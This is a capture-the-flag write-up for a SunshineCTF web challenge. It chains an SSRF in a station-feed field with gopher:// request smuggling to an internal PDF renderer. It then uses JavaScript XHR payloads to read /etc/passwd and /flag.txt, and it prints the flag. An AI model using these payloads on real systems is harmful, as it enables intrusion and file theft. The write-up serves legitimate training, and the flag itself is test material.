




# Groundhog Day

## Overview


View Source contains the following comment:

```html
  <!-- ops: console pulls station JSON at boot from http://127.0.0.1:8000/feed.
       override it with feed=<url> when PUNX-1 is down and you need to point at
       a spare station. manual override panel below, re-enable it next outage.
       remove before public launch.

  <form class="override" action="/" method="post">
    <label for="feed">Station feed URL</label>
    <input id="feed" name="feed" type="text" size="60" value="http://127.0.0.1:8000/feed">
    <button type="submit">Load station</button>
  </form>
  -->
  <!-- feed-debug: source=http://127.0.0.1:8000/feed bytes=349 -->
```

This comment reveals that:

- The console has a `POST /` form.
- The field is named `feed`.
- The server has a station feed at `http://127.0.0.1:8000/feed`.

## Confirming that the server fetches a user-supplied URL

Submit the default URL through the form:

```http
POST / HTTP/1.1
Host: odyssey.web.2026.sunshinectf.games
Content-Type: application/x-www-form-urlencoded

feed=http://127.0.0.1:8000/feed
```

The response is still a forecast page, but the values have changed.

The comment only suggests `/feed`, but an HTTP service may expose other routes. Change `feed` to the root path:

```http
POST / HTTP/1.1
Host: odyssey.web.2026.sunshinectf.games
Content-Type: application/x-www-form-urlencoded

feed=http://127.0.0.1:8000/
```

The public console cannot parse the response as JSON, so it displays a Fault status and prints the raw response in `Raw telemetry`. The response is:

```text
PUNXSUTAWNEY ORBITAL WEATHER AUTHORITY -- BUREAU ARCHIVE (internal)
====================================================================
Staff endpoints. Do not expose to the public console.

  GET  /feed
       Current randomised observation for station PUNX-1, as JSON.

  GET  /health
       Liveness probe.

  POST /report
       Render an archival PDF from a report body.
       Content-Type: application/x-www-form-urlencoded
       Fields:
         content  report contents
         title    optional document title

       Example:
         POST /report HTTP/1.1
         Host: 127.0.0.1:8000
         Content-Type: application/x-www-form-urlencoded
         Content-Length: 40

         content=%3Ch1%3EFeb+2+Summary%3C%2Fh1%3E

       Returns JSON. The microfilm scanner cannot take binary over the
       wire, so the document comes back base64 in the `data` field.

NOTE(ops): This application is NOT to be published. It has been restricted to
localhost for maintenance and testing purposes; mainly updating from wkhtmltopdf 0.12.5

```

This identifies `/report`. The endpoint accepts document content.

## Confirming Gopher SSRF with a GET request

Try using Gopher to send a raw TCP request to localhost:

```http
GET /health HTTP/1.1
Host: 127.0.0.1:8000

```

URL-encode the request, prepend `gopher://127.0.0.1:8000/_`, and then encode it once more using CRLF:



```text
feed=gopher%3A%2F%2F127.0.0.1%3A8000%2F_GET%2520%2Fhealth%2520HTTP%2F1.1%250d%250aHost%3A%2520127.0.0.1%3A8000%250d%250a%250d%250a
```

The console prints the response:



Gopher can therefore create a request with an arbitrary method instead of being limited to the GET method used by the console.

## Sending a POST request to `/report` through Gopher

Request raw:

```http
POST /report HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close

content=hello
```

Repeating the process above produces the following response:


The prefix `JVBERi0xL...` is the base64 representation of `%PDF-1.4`, so `data` contains the PDF content.

## Verifying that report content is rendered

Replace `hello` with HTML:

```html
<h1>READTEST</h1>
```

After decoding `data` and opening the PDF, the result is:


This confirms that the `content` field is passed to the renderer rather than stored as plain text.

The PDF metadata also identifies the renderer:



This version allows JavaScript in the HTML to make requests to `file://` URLs.

## Trying to read a local file with an iframe

Try the direct approach first:

```html
<h1>IFRAME</h1>
<iframe src="file:///etc/passwd" width="1000" height="2000"></iframe>
```

The PDF is still generated, but `pdftotext` only returns:

```text
IFRAME
```

The iframe does not place the file contents into the PDF text. Therefore, switch to JavaScript to retrieve the response text and write it directly into the document.

Payload JavaScript:

```html
<html>
  <body>
    <pre id="o"></pre>
    <script>
      var x = new XMLHttpRequest();
      x.open("GET", "file:///etc/hostname", false);
      x.send();
      document.getElementById("o").textContent = x.responseText;
    </script>
  </body>
</html>
```

After running `pdftotext`, the PDF contains:


Change the test file to `/etc/passwd` to check a longer response:

```html
<script>
var x = new XMLHttpRequest();
x.open("GET", "file:///etc/passwd", false);
x.send();
document.body.innerText = x.responseText;
</script>
```

Result:


At this point, there is evidence of local file read through the PDF renderer.

Replace the path in the XHR with `/flag.txt`:

```html
<script>
var x = new XMLHttpRequest();
x.open("GET", "file:///flag.txt", false);
x.send();
document.body.innerText = x.responseText;
</script>
```

After decoding the result:



## Flag

```text
sun{s1x_m0r3_w33ks_0f_g0ph3r_ssrf}
```
